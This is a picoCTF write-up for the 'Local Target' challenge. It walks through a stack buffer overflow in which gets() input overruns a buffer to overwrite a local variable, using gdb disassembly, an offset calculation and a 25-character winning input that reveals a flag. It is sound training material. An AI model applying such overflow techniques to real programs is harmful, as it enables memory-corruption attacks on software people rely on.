

# Local Target
Challenge Description:
> Smash the stack

CTF: <b>picoCTF</b> (picoGym)<br>Difficulty: <b>Medium</b>

<b>[Jump to solution](#solution)</b>

## Hints
Here are the hints provided by the challenge author.
<details>
<summary>Hint 1</summary>

> Do anything you can to change num.
</details>
<details>
<summary>Hint 2</summary>

> When you change num, view the value as hexadecimal.
</details>

## Procedure
The program asks us for an input, and then prints the value of a `num` variable. Having an input too large seems to corrupt the `num` variable.
```
$ ./local-target
Enter a string: hammy

num is 64
Bye!
$ ./local-target
Enter a string: hammmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmy

num is 1835887981
Bye!
Segmentation fault
```
When looking in gdb (or the source), it looks like the way to "win" the challenge is to change `num` to 65.
> 
Note: 0x40 = 64, the original value of `num`.
```c
printf("num is %d\n", num);
fflush(stdout);

if( num == 65 ){
printf("You win!\n");
```

So exactly how many characters do we need to write to reach `num` and overwrite it with any additional bytes? From gdb, it looks like this is a 64-bit binary, and the address of the input buffer is at `$rbp-0x20`.
```
   0x0000000000401269 <+51>:	lea    rax,[rbp-0x20]
   0x000000000040126d <+55>:	mov    rdi,rax
   0x0000000000401270 <+58>:	mov    eax,0x0
   0x0000000000401275 <+63>:	call   0x401110 <gets@plt>
```
On a 64-bit stack frame, local variables begin at `$rbp-0x8`. Since we can overflow `num` with our input buffer, we can assume that `num` is placed on the stack at a higher address than our input buffer. Given the image above showing the gdb disassembly at the comparison of `num` to `65`, we know that `num` is located at `$rbp-0x8`.

Therefore, because our buffer is at `$rbp-0x20` and `num` is at `$rbp-0x8`, we need to write `0x20-0x8 = 0x18` (24) bytes before reaching `num`, and any bytes after that will begin to overwrite `num`. The capital letter `A` equals `65` in ASCII, so that is what we use to overwrite `num`.
```
$ ./local-target
Enter a string: hammyhammyhammyhammyhammA 

num is 65
You win!
hammy{u win - hammy}
```

## Solution
1. Input 24 characters, followed by the capital letter `A`. Example: `hammyhammyhammyhammyhammA`
